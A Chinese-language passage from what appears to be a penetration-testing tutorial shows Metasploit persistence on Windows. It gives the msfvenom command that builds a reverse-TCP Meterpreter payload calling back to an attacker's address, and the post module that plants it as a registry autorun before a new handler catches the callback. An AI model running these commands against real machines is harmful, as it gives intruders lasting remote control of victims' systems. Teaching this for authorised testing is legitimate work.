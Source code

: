 让我们看一下 meterpreter 之前提到的推荐的后置模块。为了使用`/post/windows/manage/persistence_exe`，你需要创建一个有效载荷。我使用 MSFvenom 创建了一个简单的有效载荷。

在上面的屏幕截图中，用于创建在之前屏幕截图中看到的`payload.exe`文件的命令是`msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=1338 -f exe -o /root/Desktop/payload.exe`。请注意端口号——它与我们之前使用的不同。

一旦生成了有效载荷，你可以在 Meterpreter 会话中使用以下命令：

```
run post/windows/manage/persistence_exe REXEPATH=/root/Desktop/payload.exe
```

`REXEPATH`用于定义你在 Kali 环境中创建的有效载荷的位置。`STARTUP`用于定义启动类型（`User`、`System`或`Service`）；这将决定使用哪个注册表键。一旦输入了上述命令，Metasploit 将执行持久性攻击，并在注册表中创建一个自动运行，如下面的屏幕截图所示：

![](img/8cbb70a3-9617-4f03-b319-36bd6f0e9d30.png)

图 4：使用恶意有效载荷的持久性

一旦完成这些操作并退出 Meterpreter 会话，创建一个新的处理程序。记得定义一个不同的端口号。

在以下的屏幕截图中，请注意我建立的两个会话：

![](img/247fb37e-c99b-4e4d-973e-9341b35f7864.png)

图 5：使用 Meterpreter 建立会话

通过在目标机器上使用`regedit`，我们可以验证注册表键是否存在：

